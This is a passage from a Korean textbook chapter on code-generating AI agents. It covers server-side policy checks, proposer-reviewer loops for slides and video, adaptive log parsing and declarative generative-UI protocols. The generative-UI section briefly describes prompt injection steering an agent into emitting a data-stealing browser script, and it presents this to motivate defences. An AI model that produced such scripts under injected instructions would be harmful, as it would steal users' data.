    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "비즈니스 클래스 취소"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"보험이 있는 {r.cabin_class}"}
        return {"success": False, "reason": f"{r.cabin_class}에는 보험이 필요함"}

    return {"success": False, "reason": "취소 정책을 충족하지 않음"}
```

이 설계의 가치는 두 수준으로 이해해야 한다.

**첫 번째 수준: 생각 체크리스트 역할을 하는 매개변수.** 도구 설명은 전체 취소 정책을 나열하고 모델에 ‘호출하기 전에 주문 상세 정보를 조회하고 각 조건을 하나씩 확인하라’고 요구한다. 선택 사항인 `expected_*` 매개변수는 모델이 자신의 판단을 명시적으로 써 내게 한층 더 유도한다. 이 매개변수를 채우려면 모델이 먼저 조회 도구를 호출해 주문 상세 정보를 얻고 조건을 하나씩 확인해야 한다. 매개변수를 채우는 과정 자체가 사실상 **의무 체크리스트**다. 객실 등급이 이코노미이고 보험에 가입하지 않았다는 사실을 발견하면 모델은 호출을 준비하면서 규칙 5를 알아차릴 가능성이 크다. 따라서 **호출 자체를 하지 않고** 사용자에게 ‘보험이 없는 이코노미 클래스는 취소할 수 없습니다. 보험 가입 후 취소하거나 예약 변경을 고려하세요’라고 직접 알린다. 이 수준의 가치는 생각을 유도하고 무효 호출을 줄이는 데 있지만 안전을 책임지지는 않는다. `expected_*` 매개변수는 모델의 자기 진술일 뿐 서버는 이를 사실로 취급하지 않는다.

**두 번째 수준: 관문 역할을 하는 서버 측 참값 검증.** 코드의 핵심 설계를 보자. 객실 등급, 보험 상태, 예약 시각, 구간 사용 여부, 항공편 상태는 모두 서버가 데이터베이스에서 조회하고 현재 시각도 서버 시계에서 가져온다. **모델의 자기 보고 매개변수에서 가져온 정책 사실은 하나도 없다.** 이는 불필요하게 조심하는 것이 아니다. 앞의 치명적인 세 가지 요소 분석에서 보았듯 같은 컨텍스트 안의 Agent는 자신이 결백함을 입증하기 어렵고, 모델은 환각하거나 프롬프트 주입에 조종될 수 있다. `cabin_class`, `has_insurance`, 심지어 `current_time`까지 모델이 채우는 매개변수로 설계하면 모델이 틀린 값을 하나라도 보고하거나 그렇게 하도록 유도받는 순간 ‘문지기’가 무용지물이 된다. 최후의 방어선은 모델이 위조할 수 없는 데이터를 바탕으로 해야 한다. 이는 앞의 ‘중요 작업에는 독립적인 검증이 필요하다’라는 입장과 일치한다. 독립성은 독립 모델뿐 아니라 독립 데이터 소스도 뜻한다.

이렇게 3단계 보호가 완성된다. (1) 시스템 프롬프트의 자연어 규칙은 이해와 설명을 돕는다. (2) 도구 설명과 매개변수 설계는 체크리스트 역할을 해 호출 전에 조건을 명시적으로 확인하도록 모델을 유도한다. (3) 데이터베이스 참값을 사용하는 서버 측 코드 검증이 최후의 문지기 역할을 한다. 앞의 두 단계는 오류 발생을 줄이고 세 번째 단계는 오류가 되돌릴 수 없는 손실이 되는 것을 막는다.

> **실험 5-3 ★★: 소형 모델이 코드 기반 지식으로 규칙 실행 정확도 높이기**
>
> **실험 목표**: 소규모 매개변수 모델(Qwen3-4B)이 코드 기반 비즈니스 규칙을 통해 복잡한 정책을 실행하는 정확성과 일관성을 크게 높이는지 검증한다.
>
> **기술 방안**: τ-bench 항공사 고객 서비스 상황을 바탕으로 대조 실험을 설계한다. **대조군**은 순수 자연어 규칙으로 모델 자체의 생각에 의존한다. **실험군**은 3단계 보호를 적용한다. 시스템 프롬프트에 자연어 규칙을 유지한다. 도구 설명에 전체 정책을 나열하고 선택 사항인 `expected_*` 매개변수로 호출 전에 각 조건을 하나씩 확인하게 한다(체크리스트). 도구 내부에서는 모의 데이터베이스 참값을 바탕으로 코드 검증을 수행한다(모든 정책 사실은 데이터베이스에서 얻고 시각은 서버 시계에서 가져오며 모델의 자기 보고 매개변수를 신뢰하지 않는다). 작업 성공률, 정책 위반 횟수, 무효 도구 호출 수, 사용자 경험을 평가 지표로 삼는다.
>
> **예상 결과**: 실험군이 대조군보다 유의미하게 뛰어나다. 더 중요한 점은 모델이 매개변수를 준비할 때 위반 사항을 자율적으로 식별하고 사용자에게 직접 대안을 제시하는지 관찰해 ‘체크리스트 역할을 하는 매개변수’의 효과를 검증하는 것이다. 동시에 `expected_*` 자기 보고 값과 데이터베이스 참값이 일치하지 않는 비율을 집계해 잘못된 인식을 차단하는 ‘서버 측 참값 검증’의 필요성을 확인한다.
>

### 코드 기반 멀티미디어 생성

복잡한 문서 생성의 본질은 구조화된 데이터를 조직하고 표현하는 일인 경우가 많다. 프레젠테이션, 기술 보고서, 대화형 애플리케이션 모두 바탕 구조는 코드로 정의한다. HTML은 구조를 기술하고 CSS는 스타일을 제어하며 JavaScript는 상호작용을 구현한다. 전통적인 문서 작성은 GUI 인터페이스의 위지윅(WYSIWYG) 편집에 의존하지만, 시각적 이해와 정확한 좌표 지정이 필요한 GUI 작업은 Agent에 직관적이지도 효율적이지도 않다. 코드 생성을 사용하면 Agent는 시각적 위치 지정이라는 과제를 우회해 문서를 정밀하게 제어한다. 각 요소의 위치·스타일·내용을 명확히 정의하고 프로그램으로 수정·최적화할 수 있다.

**PPT 생성 Agent.**

PPT 제작은 손이 많이 가기로 악명 높다. 일반적인 학술 발표 자료는 수십 장에 이르며 슬라이드마다 세심한 레이아웃, 핵심 내용의 압축, 적절한 차트 선택이 필요하다. 그러나 PPT 제작을 코드 생성 문제로 다시 바라보면 복잡성이 상당 부분 사라진다. Slidev 같은 현대의 프레젠테이션 프레임워크는 Markdown과 HTML로 내용을 정의한다는 우아한 설계 철학을 따른다. 간결한 markup 몇 줄이면 슬라이드 한 장을 만들 수 있고 렌더링·레이아웃·애니메이션은 프레임워크가 처리한다. 코드 생성을 익힌 Agent에 이상적인 영역이다.



하지만 코드를 생성하는 것만으로는 충분하지 않다. **Agent가 코드를 작성해도 실제 렌더링 결과가 어떤지 알 수 없기** 때문이다. 내용이 너무 빽빽한지, 텍스트가 넘치는지, 이미지 크기가 잘못되었는지는 슬라이드를 실제로 렌더링해야 알 수 있다. 따라서 그림 5-5처럼 코드 작성과 품질 검토를 독립된 두 Agent로 분리하는 **제안자-검토자** 메커니즘이 필요하다.

- **제안자 Agent**는 Slidev 코드를 생성하고 콘텐츠의 논리 구조를 이해해 합리적인 페이지로 나눈다.
- **검토자 Agent**는 코드를 실행해 각 페이지를 이미지로 렌더링한다. 이미지를 ‘볼 수 있는’ 멀티모달 대규모 모델인 Vision LLM으로 콘텐츠 밀도, 가독성, 레이아웃의 합리성, 시각적 미감을 분석하고 **구조화된 개선 제안**을 생성한다. ‘보기 좋지 않다’ 같은 모호한 평가가 아니라 페이지 번호·문제 유형·심각도 같은 필드와 함께 ‘3페이지: 내용이 너무 많으니 분할 권장’, ‘7페이지: 코드 블록 글꼴이 너무 작으니 14pt로 확대 권장’처럼 구체적이고 실행 가능한 지침을 제공한다.

제안자는 피드백의 의도를 이해해 코드를 수정하고, 새 버전을 다시 검토자에게 제출한다. 품질 기준을 충족하거나 최대 반복 횟수(예: 5회)에 도달할 때까지 반복한다.

이 장의 제안자-검토자 반복 루프는 4장의 **사전 승인** 응용과 뿌리가 같다. 둘 다 생성과 검토를 분리하고 두 모델이 독립적으로 평가하는 제안자-검토자 패러다임의 사례다. 차이는 목표와 형식에 있다. 4장에서는 되돌릴 수 없는 작업의 보안을 검토해 한 작업을 승인하거나 거부한다. 이 장에서는 여러 차례 반복해 콘텐츠 품질을 개선하며, 검토자는 제안자가 볼 수 없는 새 정보인 렌더링 결과를 이용한다. 공유된 목표 제약, 서로 다른 모델 계열을 사용해 같은 오류를 낼 확률 낮추기, 특별 이벤트로 피드백을 제안자의 궤적에 추가하기라는 핵심 설계 원칙은 같다. 단일 Agent 루프가 아니라 두 Agent로 분업할 때의 **핵심 이점**은 **컨텍스트 관리**다. 검토자는 매번 최신 버전의 렌더링 이미지만 처리해 과거 버전의 영향을 받지 않는다. 제안자는 구조화된 텍스트 피드백만 축적하므로 token 소비가 적고 생각하기도 쉽다. 단일 Agent 방식은 수십 페이지의 렌더링 이미지를 여러 반복에 걸쳐 같은 컨텍스트에 쌓아야 하므로 컨텍스트 한도를 금세 넘는다. 이 메커니즘은 뒤의 동영상 편집과 로그 시각화 실험에서도 다시 사용하며, 10장에서는 제안자-검토자 외의 다중 Agent 협업 방식도 살펴본다.

> **실험 5-4 ★★: 논문에서 PPT 자동 생성하기**
>
> **실험 목표**: 학술 논문에서 고품질 프레젠테이션을 자동으로 생성해 콘텐츠 제작 품질 관리에서 제안자-검토자 메커니즘의 효과를 검증한다.
>
> **기술 방안**: Slidev 프레임워크를 사용한다. 제안자 Agent가 논문 PDF를 읽고 장 구조, 핵심 주장, 그림을 추출해 PPT 구조를 계획하며 페이지별 Slidev 코드를 생성한다. **핵심 단계**: 검토자 Agent는 각 페이지의 스크린숏을 렌더링하고 Vision LLM으로 렌더링 결과를 확인해 텍스트 넘침, 내용 과밀, 부적절한 이미지 크기 같은 문제를 찾은 뒤 구조화된 개선 제안을 생성한다. 결과가 기준을 충족할 때까지 반복한다.
>
> **인수 기준**: 논문의 주요 기여를 다루는 10~20장의 PPT를 생성한다. 원문 그림을 3개 이상 포함하며 설명하는 텍스트와 일치해야 한다. 렌더링에서 텍스트가 넘치지 않고 레이아웃이 합리적이어야 한다. 단일 Agent 자기 검토와 제안자-검토자 분업의 컨텍스트 소비량·생성 품질 차이를 비교한다.
>

> **실험 5-5 ★★: 논문 해설 동영상 자동 생성하기**
>
> **실험 목표**: PPT 생성 역량을 확장하고 시각·청각 채널을 결합해 해설 동영상을 자동으로 생성한다.
>
> **기술 방안**: 실험 5-4의 PPT 생성 작업 흐름을 바탕으로 Agent가 각 슬라이드의 구어체 해설문을 함께 생성한다. 단순 반복이 아니라 내용을 이끄는 설명이어야 한다. TTS(Text-to-Speech, 텍스트 음성 변환)를 호출해 음성을 합성하고 ffmpeg로 PPT 스크린숏과 음성을 동기화해 동영상을 만든다.
>
> **인수 기준**: 동영상은 5~15분이며 각 슬라이드의 표시 시간이 음성 길이와 정확히 일치하고 해설 내용이 시각 요소와 호응해야 한다.
>
>
> 
>
>

**동영상 편집 Agent.**

범용 Computer Use로 동영상을 편집하려 하면 근본적인 장애물에 부딪힌다. 동영상 편집 GUI는 타임라인·계층·효과 패널이 빽빽하게 들어 있어 대단히 복잡하다. Agent가 이 인터페이스 요소를 정확히 찾고 마우스와 키보드로 편집해야 하는데 정확한 좌표를 출력하기가 매우 어렵다.

동영상 편집을 API 호출과 코드 생성으로 다시 바라보면 복잡성이 크게 줄어든다. 전문 소프트웨어 가운데는 Blender(Python 스크립팅을 지원하는 오픈 소스 3D 제작·동영상 합성 도구), FFmpeg(음성·동영상 처리를 위한 명령줄의 만능 도구)처럼 핵심 기능을 구조화하고 조합할 수 있는 형태로 노출하는 프로그래밍 API를 제공하는 경우가 많다. Blender Python API를 사용하면 동영상 클립 가져오기, 잘라내기, 배치, 전환 효과 추가, 오디오 믹싱을 정확하게 제어할 수 있으며 각 작업이 명확한 함수 호출에 대응한다. Agent에는 GUI 인터페이스를 이해해 마우스 클릭을 흉내 내는 것보다 자연어 요구 사항을 API 호출로 바꾸는 편이 훨씬 쉽다. PPT 생성과 마찬가지로 동영상 편집에도 제안자-검토자 메커니즘을 사용한다. 제안자 Agent는 Blender 스크립트를 생성하고 검토자 Agent는 핵심 프레임을 렌더링한 뒤 Vision LLM으로 결과를 확인해 수정 피드백을 제공한다.

> **실험 5-6 ★★: API 기반 지능형 동영상 편집**
>
> **실험 목표**: Blender Python API 코드를 생성해 동영상을 편집하는 Agent의 역량을 검증하고, 시각 피드백에 기반한 제안자-검토자 메커니즘이 멀티미디어 콘텐츠 처리에서 맡는 역할을 평가한다.
>
> **핵심 과제**: 사용자의 자연어 편집 요구를 이해해 정확한 API 호출 순서로 변환하고, 자르기·병합·자막·오디오 트랙 믹싱·시각 효과 같은 여러 편집 작업을 처리하며, 생성한 Python 스크립트가 올바르게 실행되게 한다. 제안자 Agent는 코드를 작성한 뒤 동영상 결과를 직접 판단할 수 없으므로 검토자 Agent가 렌더링하고 Vision LLM으로 핵심 프레임을 확인해야 한다.
>
> **기술 방안**: 사용자가 서핑·하이킹·스키 같은 장면이 들어 있는 원본 동영상 자료를 제공하고 ‘서핑 부분만 잘라 줘’ 같은 요구를 자연어로 설명한다. 제안자 Agent는 동영상 분석 하위 Agent를 사용해 **2단계 위치 찾기 전략**을 수행한다.
>
> **1단계, 거친 위치 찾기**: 동영상 경로, 10초마다 캡처하는 간격, 목표 질문을 넘겨 하위 Agent를 호출한다. 하위 Agent는 ffmpeg로 핵심 프레임을 캡처하고 모든 스크린숏을 질문과 함께 Vision LLM에 입력해 ‘서핑은 40~110초’ 같은 장면 구간을 반환한다.
>
> **2단계, 세밀한 위치 찾기**: 더 좁은 범위에서 1초마다 캡처하도록 하위 Agent를 다시 호출해 경계 시점을 정확히 찾는다.
>
> 동영상 분석을 하위 Agent로 캡슐화하면 수많은 스크린숏이 주 Agent의 컨텍스트를 차지하지 않는다. 위치를 찾은 뒤 Blender API 스크립트를 생성한다. 검토자 Agent는 빠른 미리보기를 실행하고 핵심 프레임을 확인해 수정 피드백을 제공한다. 기준을 충족할 때까지 반복한 뒤 전체를 렌더링한다.
>
> **인수 기준**: Agent가 동영상의 서로 다른 장면을 정확히 식별하고 자연어 지시에 따라 올바른 편집 스크립트를 생성해야 한다. 시작·종료 지점은 오차가 3초 이내여야 한다. 지시에 슬로 모션, 전환, 자막 같은 특수 효과 요구 사항이 있으면 생성한 동영상에 효과가 올바르게 적용되어야 한다. 검토자 Agent는 핵심 내용 누락이나 무관한 구간 포함 같은 명백한 오류를 탐지해 교정을 실행해야 한다. 최종 동영상 파일은 형식이 올바르고 기대 품질을 충족해야 한다.
>

### 시스템 어댑터로서의 코드

앞 절의 코드는 보고서·슬라이드·인터페이스처럼 주로 ‘사람을 향한’ 결과를 만들었다. 이 절의 코드는 다른 방향인 **기계와 기계의 연결**을 향한다. 실제 시스템에서 Agent가 통신해야 할 외부 서비스에는 미리 준비된 SDK가 없는 경우가 많고 인터페이스도 좀처럼 깔끔하지 않다. 문서가 없고 반환 형식이 표준과 다르며 버전마다 필드가 변한다. Agent는 누군가가 어댑터 계층을 미리 작성해 줄 때까지 기다릴 필요가 없다. 그 자리에서 인터페이스 문서를 읽거나 실제 응답 한두 개만 관찰하고 어댑터를 생성할 수 있다. HTTP 클라이언트를 만들고, 인증 header를 조합하고, 비표준 반환 구조를 파싱하고, 상위 데이터 모델을 하위 시스템이 소비할 수 있는 형태로 변환한다. 여기서 코드는 임의의 시스템을 연결하는 ‘범용 접착제’다. 틈이 있으면 그 자리에서 접착제 조각을 만들어 메운다. 이것이 메타 역량의 ‘시스템 인터페이스’ 방향이 지닌 핵심이다. 뒤에서 구현할 적응형 로그 파싱은 이 역량을 관측 가능성 상황에 구체화한 것이다. 끊임없이 진화하는 로그 형식을 만나면 Agent는 즉석에서 파싱 코드를 생성해 적응한다.

이 ‘범용 접착제’는 **API가 전혀 없는 시스템**으로도 확장할 수 있다. 외부 시스템이 그래픽 인터페이스만 제공한다면 Agent가 먼저 Computer Use(9장에서 자세히 설명)로 인터페이스를 조작하고, 성공한 작업 순서를 코드로 굳혀 RPA 도구로 만들 수 있다. 다음에 같은 작업이 생기면 비싼 시각적 추론 없이 코드를 빠르고 안정적으로 실행하면 된다. RPA는 시스템 어댑터를 극한까지 밀어붙인 형태, 즉 인터페이스가 전혀 없는 시스템을 위한 어댑터라고 할 수 있다. 이 ‘작업 흐름 기록과 고정’ 메커니즘은 8장에서 다룬다.

데이터 처리는 소프트웨어 시스템에서 가장 흔하면서도 가장 성가신 작업 가운데 하나다. 근본 원인은 데이터 형식이 다양하고 끊임없이 변한다는 점이다. 단일 시스템도 진화하면서 새 필드를 추가하고 중첩 구조를 바꾸고 새 타입을 도입하는 등 형식을 여러 차례 바꿀 수 있다. 형식마다 parser를 직접 작성하면 유지 보수 비용이 막대하다. 변경될 때마다 파싱 로직을 갱신하고 호환성을 테스트한 뒤 새 버전을 배포해야 한다.

코드 생성은 완전히 다른 접근법을 제공한다. Agent가 새 형식을 만나면 예시 데이터를 바탕으로 즉석에서 파싱 코드를 생성한다. 사람의 개입 없이 형식의 진화를 자동으로 따라가는 시스템이 된다.

**Agent 로그 파싱과 시각화.**

Agent 시스템의 관측 가능성은 실행 흐름의 시각화에 의존한다. 복잡한 Agent 작업은 여러 차례의 LLM 호출, 수십 번의 도구 실행, 여러 하위 Agent의 상호작용을 포함해 수백 단계에 이를 수 있다. 이 데이터를 시각화하려면 여러 문제를 해결해야 한다. 도구마다 반환하는 데이터 구조가 다르고 시스템이 반복 개발되면서 형식이 변한다. 완전한 궤적은 수십만 자에 이를 수 있으므로 개요와 세부 정보 사이에 균형도 필요하다.

코드 생성은 자동 복구 피드백 루프라는 우아한 해법을 제공한다. 프런트엔드가 파싱할 수 없는 로그 형식을 만나면 오류를 표시하는 대신 실패 정보(원시 로그 예시, 자세한 오류)를 Agent에 자동으로 보고한다. Agent는 예시 데이터 구조를 분석해 올바르게 파싱할 수 있는 프런트엔드 코드를 생성한다. 먼저 가상 브라우저에서 코드를 자동 테스트해 파싱 정확성을 검증하고 Vision LLM으로 시각화 결과를 확인한다. 통과하면 프런트엔드 시스템에 hot update한다.

> **실험 5-7 ★★★: 적응형 로그 파싱 시스템**
>
> **실험 목표**: 스스로 진화하는 Agent 로그 시각화 시스템을 구축한다.
>
> **기술 방안**: 초기 시스템은 기본 형식만 지원한다. 프런트엔드의 파싱 실패 탐지 → Agent에 보고 → 파싱 코드 생성 → 가상 브라우저 테스트 → hot update 배포의 전체 과정을 자동화한다.
>
> **인수 기준**: 실패를 자동으로 탐지해 학습을 실행하고, 자동 테스트를 통과하는 코드를 생성하며, hot update 후 새 형식을 올바르게 파싱해야 한다.
>

**Agent 실행 로그의 자동 분석과 문제 진단.**

프로덕션 Agent는 각 작업의 전체 과정을 기록한 궤적 로그를 대량으로 생성한다. 그러나 로그에서 문제를 찾고 근본 원인을 파악해 테스트 케이스를 만드는 일에는 큰 비용이 든다. 여러 모듈의 협업 오류로 작업이 실패할 수 있어 문제 위치를 찾기 어렵고, 복잡한 프로덕션 환경을 테스트 환경에서 흉내 내기 어려워 재현 비용이 크며, 체계적인 회귀 테스트가 없어 고친 문제가 되풀이되기 쉽다.

코드 생성은 진단을 자동화하는 경로를 제공한다. Agent는 프로덕션 로그를 읽고 아키텍처 문서와 PRD(Product Requirement Document, 제품 요구 사항 문서)를 함께 분석해 실행 흐름이 기대에 맞는지 자동으로 판단하고 문제가 생긴 구성 요소와 모듈을 찾을 수 있다. 분석 결과를 바탕으로 구조화된 문제 보고서(우선순위, 모듈, 설명, 개선 제안)와 회귀 테스트 케이스를 생성한다. 테스트 케이스는 문제가 생긴 궤적 ID와 핵심 상호작용 차례를 참조하고, 테스트 프레임워크는 이를 자동으로 재실행해 수정한 시스템이 같은 입력에 올바르게 행동하는지 검증한다. 마지막으로 Agent는 MCP를 통해 GitHub에 연결해 Issue를 만들고 관련 개발자에게 할당하여 문제 발견부터 작업 배정까지 전 과정을 자동화한다.

> **실험 5-8 ★★★: 프로덕션 로그 지능형 진단 시스템**
>
> **실험 목표**: 프로덕션 궤적에서 문제를 자동으로 찾고 테스트 케이스와 작업 항목을 생성한다.
>
> **기술 방안**: Agent가 프로덕션 궤적 묶음을 읽고 시스템 아키텍처 문서·PRD와 함께 분석한다. 문제 패턴을 식별하고 관련 모듈을 찾는다. 구조화된 문제 보고서(우선순위, 모듈, 설명, 개선 제안)를 생성한다. 궤적 ID와 상호작용 차례를 참조하는 회귀 테스트 케이스를 자동으로 생성하고 테스트 프레임워크가 이를 자동 재실행해 검증한다. MCP를 통해 GitHub Issue를 자동으로 생성한다.
>
>
> 
>
>

### 생성형 UI로서의 코드

전통적인 Agent 시스템은 주로 일반 텍스트 대화로 사용자와 상호작용한다. 하지만 텍스트는 선형적인 1차원 매체로, 많은 상황에서 비효율적이다. 구조화된 정보를 모으려면 질문과 답변을 오래 주고받아야 하고, 복잡한 데이터 관계를 일반 텍스트로 표현하기는 어려우며, 사용자가 여러 선택지 중 하나를 골라야 할 때 텍스트 목록은 시각적 인터페이스보다 훨씬 직관성이 떨어진다.

코드 생성은 이런 한계를 뛰어넘을 가능성을 제공한다. Agent가 양식, 대화형 차트, 심지어 완전한 웹 애플리케이션까지 동적으로 생성해 정적인 텍스트 대화를 풍부한 멀티모달 상호작용으로 발전시킬 수 있다. Agent가 인터페이스를 동적으로 생성하는 이 패턴을 **생성형 UI**(Generative UI)라고 한다.

**A2UI 계열 프로토콜: 생성형 UI 표준화.**

Agent가 HTML과 JavaScript 코드를 직접 생성해 UI로 사용하면 근본적인 보안 문제가 생긴다. 생성한 코드에 악성 콘텐츠가 들어 있을 수 있다. 예를 들어 누군가 입력에 지시를 일부러 숨기면 프롬프트 주입에 조종된 Agent가 자신도 모르게 사용자 데이터를 몰래 훔치는 스크립트를 생성할 수 있다. 인과관계를 분명히 해야 한다. 원인은 Agent 입력에 악성 지시를 섞는 **프롬프트 주입**이고, 브라우저에서 악성 스크립트가 실행되어 데이터를 훔치는 **결과**가 전통적인 웹 XSS(Cross-Site Scripting)와 비슷한 것이다. 공격 전체를 단순히 XSS라고 불러서는 안 된다. A2UI(Agent-to-User Interface)로 대표되는 선언적 인터페이스 프로토콜은 더 안전한 방향을 제시한다. Agent는 실행 가능한 코드를 직접 생성하지 않고 ‘제목이 판매 데이터인 3행 2열 표를 표시하라’ 같은 JSON 형식의 **UI 설명 manifest**만 출력한다. 클라이언트는 manifest를 받아 미리 정의된 안전한 자체 구성 요소로 인터페이스를 렌더링한다. 식당 메뉴에 비유할 수 있다. 손님(Agent)은 메뉴에 있는 요리(미리 정의된 구성 요소)만 주문할 수 있고 주방에 들어가 직접 요리(임의 코드 실행)할 수는 없다. 흔한 혼동도 짚고 넘어가자. 이름이 비슷한 AG-UI(Agent-User Interaction, CopilotKit이 제안)는 UI 설명 언어가 아니라 Agent의 실행 상태(메시지, 도구 호출, 상태 patch)를 프런트엔드에 스트리밍하는 **이벤트·전송 프로토콜**이다. A2UI 같은 UI 페이로드도 운반할 수 있다. 따라서 둘은 같은 유형의 ‘선언적 인터페이스 프로토콜’이 아니라 서로 보완하는 관계다.

이러한 프로토콜의 핵심 설계 원칙은 **보안 우선**이다. 클라이언트는 Card, Button, TextField, Table 같은 신뢰할 수 있는 구성 요소 목록을 유지한다. Agent는 목록에 있는 구성 요소의 렌더링만 요청할 수 있고 임의 코드를 주입할 수 없다. 클라이언트는 Agent가 생성한 임의 HTML을 실행하지 않고 자체 네이티브 구성 요소로 렌더링한다. 이런 프로토콜은 보통 **교차 플랫폼**(동일한 설명을 React, Flutter, 네이티브 앱에서 렌더링)과 **점진적 생성**(JSONL 형식으로 스트리밍하며 받는 즉시 렌더링)도 지원한다.

물론 선언적 방식은 양식·표·카드 같은 표준화된 상호작용 상황에 적합하고, 맞춤 시각화나 게임 인터페이스처럼 고도로 특화된 요구에는 코드를 직접 생성하는 방식이 여전히 더 유연하다. 아래에서는 두 패턴의 구체적인 응용을 살펴본다.

**HTML로 결과 전달하기: Markdown 보고서 대체.** 생성형 UI는 상호작용 도중에만 쓰이는 것이 아니라 Agent의 최종 **산출물** 형식도 바꾸고 있다. 전통적으로 Agent는 작업을 마치면 Markdown 보고서를 전달하지만, 선형으로 배치된 Markdown을 넘겨가며 읽는 경험은 즐겁지 않다. Agent의 프런트엔드 코드 생성 역량이 높아지면서 HTML을 직접 만들게 하는 실천이 확산되고 있다. HTML 산출물에는 Markdown과 비교해 뚜렷한 장점이 몇 가지 있다. 첫째는 **대화형 시연**이다. 시스템의 작동 방식을 사용자가 직접 조작할 수 있는 형태로 보여 주므로 긴 글보다 한눈에 이해하기 쉽다. 둘째는 **더 나은 데이터 시각화**다. 표 대신 차트로 데이터를 제시하고, 사용자가 탐색·필터링하며 관심 있는 세부 사항을 깊이 볼 수 있는 대화형 구성 요소를 만들 수 있다. 셋째는 **계속 개선할 수 있는 산출물**이다. HTML 웹사이트는 작업 끝에 한 번 만들어 내는 정적인 결과물일 필요 없이 작업이 진행되는 동안 Agent가 계속 보충하고 개선할 수 있다.

저자가 연구 논문을 쓰는 경험을 예로 들면 각 연구 프로젝트마다 대화형 웹사이트를 유지한다[^ch5-4]. 이 사이트는 최종 산출물인 동시에 연구 전 과정에서 살아 있는 문서다. 실험이 진행될 때마다 Agent가 계속 갱신한다. 웹사이트는 적어도 세 가지 역할을 한다. 첫째는 **실험 데이터 추적 가능성**이다. 모든 실험의 구체적인 데이터, 사용한 프롬프트, LLM의 원시 응답을 사이트에서 항목별로 확인할 수 있다. 모든 것을 공개적으로 펼쳐 두면 데이터 구성·형식·분포의 문제와 LLM 응답이나 judge 채점의 체계적 편향을 더 쉽게 발견한다. 둘째는 **학습 지표 모니터링**이다. 학습 곡선을 페이지에 직접 배치해 모델의 **내부 건강 지표**가 정상인지 언제든 확인한다. 이 표현은 의학에서 빌려온 것으로, 학습 과정 자체가 건강한지를 보여 주는 내부 신호다. 학습·검증 loss, gradient norm, learning rate, 모델이 token을 출력할 때의 perplexity(자신의 출력에 대한 ‘확신’의 척도), 강화 학습의 reward·KL divergence·policy entropy가 있다. 작업 정확도 같은 최종 결과 지표와는 다르다. 건강 검진의 생리 수치가 사람의 겉으로 드러난 성과와 별개이듯, 내부 건강 지표는 수렴하지 않는 loss, 폭발하는 gradient, 학습 붕괴 같은 문제를 훨씬 일찍 드러내는 경우가 많다. 셋째는 **작동 원리 시연**이다. 시각화로 전체 시스템의 작동 방식을 드러내 AI가 만든 시스템의 구조를 한눈에 볼 수 있게 한다.

[^ch5-4]: 저자의 연구 프로젝트 웹사이트는 https://01.me/research/ 에서 볼 수 있으며, 프로젝트마다 계속 갱신되는 대화형 웹사이트가 있다.

**사용자 의도 명확화.**

